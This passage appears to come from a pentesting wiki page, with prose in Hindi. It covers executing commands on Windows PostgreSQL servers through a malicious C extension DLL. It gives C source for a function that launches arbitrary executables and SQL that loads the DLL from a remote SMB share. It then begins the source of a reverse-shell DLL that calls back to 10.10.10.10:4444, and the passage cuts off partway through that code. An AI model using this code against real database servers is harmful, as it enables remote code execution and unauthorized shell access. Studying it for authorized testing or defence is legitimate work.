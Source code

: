 ```c
PGDLLEXPORT Datum pgsql_exec(PG_FUNCTION_ARGS);
PG_FUNCTION_INFO_V1(pgsql_exec);

/* this function launches the executable passed in as the first parameter
in a FOR loop bound by the second parameter that is also passed*/
Datum
pgsql_exec(PG_FUNCTION_ARGS)
{
/* convert text pointer to C string */
#define GET_STR(textp) DatumGetCString(DirectFunctionCall1(textout, PointerGetDatum(textp)))

/* retrieve the second argument that is passed to the function (an integer)
that will serve as our counter limit*/

int instances = PG_GETARG_INT32(1);

for (int c = 0; c < instances; c++) {
/*launch the process passed in the first parameter*/
ShellExecute(NULL, "open", GET_STR(PG_GETARG_TEXT_P(0)), NULL, NULL, 1);
}
PG_RETURN_VOID();
}
```
आप इस ज़िप में कंपाइल किए गए DLL फ़ाइल यहाँ पा सकते हैं:

{% file src="../../../.gitbook/assets/pgsql_exec.zip" %}

आप इस DLL को **किस बाइनरी को चलाने** के लिए और इसे कितनी बार चलाने के लिए इंडिकेट कर सकते हैं, इस उदाहरण में यह `calc.exe` को 2 बार चलाएगा:
```bash
CREATE OR REPLACE FUNCTION remote_exec(text, integer) RETURNS void AS '\\10.10.10.10\shared\pgsql_exec.dll', 'pgsql_exec' LANGUAGE C STRICT;
SELECT remote_exec('calc.exe', 2);
DROP FUNCTION remote_exec(text, integer);
```
[**यहाँ**](https://zerosum0x0.blogspot.com/2016/06/windows-dll-to-shell-postgres-servers.html) आप इस reverse-shell पा सकते हैं:
```c
#define PG_REVSHELL_CALLHOME_SERVER "10.10.10.10"
#define PG_REVSHELL_CALLHOME_PORT "4444"

#include "postgres.h"
#include <string.h>
#include "fmgr.h"
#include "utils/geo_decls.h"
#include <winsock2.h>

#pragma comment(lib,"ws2_32")

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

#pragma warning(push)
#pragma warning(disable: 4996)
#define _WINSOCK_DEPRECATED_NO_WARNINGS

BOOL WINAPI DllMain(_In_ HINSTANCE hinstDLL,
_In_ DWORD fdwReason,
_In_ LPVOID lpvReserved)
{
WSADATA wsaData;
SOCKET wsock;
struct sockaddr_in server;
```